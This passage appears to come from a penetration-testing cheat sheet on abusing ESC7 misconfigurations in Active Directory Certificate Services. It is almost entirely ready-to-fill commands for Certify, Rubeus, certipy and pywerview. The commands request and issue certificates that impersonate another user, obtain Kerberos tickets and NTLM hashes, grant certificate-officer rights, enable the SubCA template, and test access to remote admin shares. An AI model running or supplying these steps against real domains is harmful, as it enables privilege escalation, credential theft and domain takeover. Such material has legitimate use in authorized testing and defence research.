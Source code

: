 ````
#### Download approved request
```
.\Certify-esc7.exe download /ca:<FQDN CA>\<CA NAME> /id:<REQUEST ID>
```

#### Append certificate
```
notepad esc7.pem
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Request TGT
- Add `/getcredentials` to also retrieve the NTLM hash
```
.\Rubeus.exe asktgt /user:<USER> /certificate:<PATH TO cert.pfx> /password:<PASSWORD> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /nowrap /ptt
```

#### Check access
```
dir \\<TARGET FQDN>\c$
winrs -r:<TARGET FQDN> whoami
```

#### Give ManageCertificates rights
- Only run if required
```
certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -ca <CA NAME> -template <TEMPLATE NAME> -add-officer <TARGET USER>
```

#### Enable SubCA template
- Only run if required
- Requires ManageCertificates rights
```
certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -enable-template 'SubCA'
```

### Linux
#### Get SID of user 
```
pywerview get-netuser -u <USER> -p <PASSWORD --username <USER> --domain <FQDN DOMAIN> --dc-ip <DC IP> --attributes "objectsid"
```

#### Request cert and abuse SAN
```
certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -ca <CA NAME> -template <TEMPLATE NAME> -upn <SAMACCOUNTNAME>@<FQDN DOMAIN> -extensionsid <OBJECTSID> -out 'esc7' -debug
```

#### Approve failed certificate
- Requires `ManageCA` and `ManageCertificates` permissions
```
certipy req -u <USER>@<DOMAIN> -hashes <NTLM HASH> -dc-ip <DC IP> -target <FQDN CA> -ca <CA NAME> -issue-request <REQUEST ID> -debug
```

#### Download approved request
````